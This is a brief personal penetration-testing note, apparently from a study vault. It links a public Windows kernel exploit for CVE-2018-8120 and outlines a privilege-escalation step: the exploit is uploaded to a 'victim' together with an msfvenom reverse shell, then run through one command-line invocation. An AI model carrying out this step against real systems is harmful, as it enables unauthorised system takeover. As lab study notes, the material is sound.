 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

Upload file along with a msfvenom reverse shell to victim.

![[4._File Transfers#Certutil]]

```command prompt - wiudows
./x86.exe reverse86.exe
```









